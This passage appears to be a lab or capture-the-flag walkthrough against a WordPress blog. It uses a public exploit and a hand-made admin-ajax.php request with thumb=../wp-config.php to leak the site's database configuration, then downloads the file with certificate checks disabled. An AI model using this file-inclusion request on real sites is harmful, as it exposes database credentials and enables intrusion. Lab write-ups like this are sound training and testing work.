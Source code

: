 The exploit Python script can be downloaded using `searchsploit` and executed after changing the target url to the WordPress blog.

```
$ searchsploit -m php/webapps/39646.py
$ python3 39646.py

urllib2.URLError: <urlopen error [SSL: CERTIFICATE_VERIFY_FAILED] certificate verify failed (_ssl.c:733)>
```

If we look up this certification error, we find a simple work around on [StackOverflow](https://stackoverflow.com/questions/27835619/urllib-and-ssl-certificate-verify-failed-error) that bypasses the verification step.  
However, the Local File Inclusion exploit script is simple and contains a comment that shows how the exploit can be performed manually.  
The exploit makes a post publish request through admin-ajax.php with a thumb parameter that specifies the file to be included as ../wp-config.php.

```
# POC - http://127.0.0.1/wordpress/wp-admin/admin-ajax.php?action=ave_publishPost&title=random&short=1&term=1&thumb=[FILEPATH]

Request: https://10.0.2.5:12380/blogblog/wp-admin/admin-ajax.php?action=ave_publishPost&title=random&short=1&term=1&thumb=../wp-config.php

Response: https://10.0.2.5:12380/blogblog/?p=320
```

The response suggests a new post was created and if we look at the blog again, a new post has appeared.  
According to the exploit, the thumbnail for the newly published post now contains the file specified in the thumb parameter.
We can download the file with the _wget_ command, if we do not check the certificate validity.  
The file contains the configuration and connection details for the MySQL database that the WordPress blog uses.

```
$ wget --no-check-certificate https://10.0.2.5:12380/blogblog/wp-content/uploads/1012453615.jpeg

$ cat 1012453615.jpeg

<?php

/**
 * The base configurations of the WordPress.
 *
 * This file has the following configurations: MySQL settings, Table Prefix,
 * Secret Keys, and ABSPATH. You can find more information by visiting
 * {@link https://codex.wordpress.org/Editing_wp-config.php Editing wp-config.php}
 * Codex page. You can get the MySQL settings from your web host.
 *
 * This file is used by the wp-config.php creation script during the
 * installation. You don't have to use the web site, you can just copy this file
 * to "wp-config.php" and fill in the values.
 *
 * @package WordPress
 */

// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'wordpress');

/** MySQL database username */
define('DB_USER', 'root');

/** MySQL database password */
```
